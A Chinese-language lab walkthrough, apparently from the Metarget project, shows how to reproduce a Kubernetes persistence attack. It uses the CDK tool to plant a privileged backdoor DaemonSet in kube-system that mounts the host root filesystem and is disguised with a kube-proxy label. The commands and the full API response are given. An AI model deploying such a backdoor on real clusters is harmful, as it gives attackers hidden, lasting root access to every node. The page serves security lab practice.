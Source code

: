 # 部署K8s后门Daemonset

## 场景介绍

Daemonset是K8s集群的一种资源，可在集群内的每个节点上部署Pod。

在集群内获取到一定的权限，需要对当前的权限进行持久化控制时，可利用K8s Daemonset资源的特性，创建一个kube-system命名空间下的Daemonset资源，进行持久化控制。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备：

```bash
./metarget cnv install k8s_backdoor_daemonset
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`k8s-backdoor-daemonset`的pod。

## 漏洞复现

下载漏洞利用工具[CDK](https://github.com/cdk-team/CDK)，将其传入`k8s-backdoor-daemonset`pod中：

```
sudo kubectl cp cdk k8s-backdoor-daemonset:/ -n metarget
```

执行以下命令运行工具（该命令会在kubs-system空间下创建一个daemonset资源）：

```
sudo kubectl exec -it k8s-backdoor-daemonset /cdk run k8s-backdoor-daemonset default ubuntu "date > /tmp/flag ; sleep 10000"
```

查看执行结果包含以下字段则部署成功，也可通过运行`sudo kubectl get ds -n kube-sytem | grep cdk` 验证部署结果。

```
api-server response:
{"kind":"DaemonSet","apiVersion":"apps/v1","metadata":{"name":"cdk-backdoor-daemonset","namespace":"kube-system","selfLink":"/apis/apps/v1/namespaces/kube-system/daemonsets/cdk-backdoor-daemonset","uid":"78954f17-ef44-4e1f-9de3-d0703116ac87","resourceVersion":"4504","generation":1,"creationTimestamp":"2022-08-26T09:53:38Z","labels":{"k8s-app":"kube-proxy"},"annotations":{"deprecated.daemonset.template.generation":"1"}},"spec":{"selector":{"matchLabels":{"k8s-app":"kube-proxy"}},"template":{"metadata":{"creationTimestamp":null,"labels":{"k8s-app":"kube-proxy"}},"spec":{"volumes":[{"name":"host-volume","hostPath":{"path":"/","type":""}}],"containers":[{"name":"cdk-backdoor-pod","image":"ubuntu","args":["/bin/sh","-c","date \u003e /tmp/flag ; sleep 10000"],"resources":{},"volumeMounts":[{"name":"host-volume","mountPath":"/host-root"}],"terminationMessagePath":"/dev/termination-log","terminationMessagePolicy":"File","imagePullPolicy":"IfNotPresent","securityContext":{"capabilities":{"add":["NET_ADMIN","SYS_ADMIN","SYS_PTRACE","AUDIT_CONTROL","MKNOD","SETFCAP"]},"privileged":true}}],"restartPolicy":"Always","terminationGracePeriodSeconds":30,"dnsPolicy":"ClusterFirst","hostNetwork":true,"hostPID":true,"securityContext":{},"schedulerName":"default-scheduler"}},"updateStrategy":{"type":"RollingUpdate","rollingUpdate":{"maxUnavailable":1}},"revisionHistoryLimit":10},"status":{"currentNumberScheduled":0,"numberMisscheduled":0,"desiredNumberScheduled":0,"numberReady":0}}
```

注：复现后请及时清除相关资源。

## 参考文献

1. https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-backdoor-daemonset